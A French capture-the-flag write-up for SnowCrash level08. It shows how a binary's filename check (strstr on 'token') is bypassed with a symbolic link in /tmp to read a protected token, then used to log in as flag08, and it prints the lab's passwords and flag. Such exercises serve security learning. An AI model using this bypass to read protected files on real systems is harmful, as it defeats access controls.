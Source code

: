 # Level08 - Lien symbolique
Pour résoudre le level08, on a un fichier level08 et un fichier token. Quand on exécute level08, on nous demande de lui donner un fichier à lire.

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

On lui donne token, mais le programme nous dit que nous n'avons pas le droit de le lire.

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

On utilise `strings` sur le programme, et on peut voir une ligne mentionnant `token`, et plus bas un appel à la fonction `strstr`:

```
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
...
strstr@@GLIBC_2.0
```

Si on essaie d'exécuter le programme avec n'importe quel autre fichier, ce dernier est lu sans soucis. On en conclus donc qu'il y a une protection sur le nom du fichier que le programme lis, et que si ce dernier contient "token", il ne sera pas lu. Comme nous n'avons pas le droit de renommer token ou de le copier, on crée un lien symbolique qui sera nommé autrement.

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/toto
level08@SnowCrash:~$ ./level08 /tmp/toto
quif5eloekouj29ke0vouxean
```

On se connecte sur le compte flag08 et on obtient notre token:

```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

On a notre token: `25749xKZ8L7DkSCwJkT9dyv6f`

